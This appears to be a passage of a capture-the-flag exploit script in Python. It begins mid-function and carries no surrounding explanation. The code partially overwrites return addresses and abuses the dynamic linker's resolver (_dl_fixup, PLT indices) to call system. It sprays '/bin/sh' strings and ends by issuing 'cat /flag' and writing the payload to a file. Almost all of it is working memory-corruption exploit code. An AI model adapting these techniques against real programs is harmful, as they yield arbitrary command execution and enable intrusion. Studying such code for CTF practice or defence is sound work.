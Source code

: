 ```python
        if offset > 0x2000 - len(dat):
            continue
        spray_buf.seek(offset)
        spray_buf.write(dat)

    spray_buf.seek(0)

    spray_buf.swrite(ret_addr, 0x76)
    spray_buf.swrite(0, 0xFF)
    buf.write(spray_buf.getvalue())
    buf.commit()

# set lsb to main+0x10 to misalign the stack by 0x10 bytes
buf.swrite(main_addr, 0xD0)
# set lsb of __libc_start_call_main to recall main+0x10
buf.swrite(ret_addr, 0x76)
# set edi to large malloc (local variable argc by __libc_start_call_main)
buf.write_bytes(main_addr + 0x8 + 0x4, p32(0x2000))

buf.swrite(0, 0xFF)
buf.commit()

# reset
buf.swrite(0, 0)
# plt resolver addr
buf.swrite(ret_addr, 0x20)
# set plt index, which should be on the heap. this'll call main
buf.write_bytes(ret_addr + 0x8, p64(plt_idx))
# this'll also call main. it's for stack alignment.
buf.write_bytes(ret_addr + 0x10, p64(plt_idx))
# this'll call system.
buf.write_bytes(ret_addr + 0x18, p64(plt_idx + 1))
buf.swrite(0, 0xFF)

buf.commit()

# hop dl_fixup to alternate branch that uses stack variable for return value
buf.swrite(ret_addr, 0xA4)
# set lsb of return value of _dl_fixup to dispatch resolver
buf.swrite(ret_addr + 0x10, 0x20)

# set saved rdi bottom two bytes to 0000
buf.write_bytes(0xA0, p16(0x0000))

buf.swrite(0, 1)
buf.commit()

buf.swrite(ret_addr, 0xA4)
buf.swrite(ret_addr + 0x10, 0x20)


spray = b"/bin/sh\x00" * 0x2000
buf.write_bytes(-0x10000, spray)
buf.swrite(0, 1)
buf.commit()

buf.write(b"cat /flag\nexit\n")

# write buf to file
with open("exploit", "wb") as f:
    f.write(buf.getvalue())

```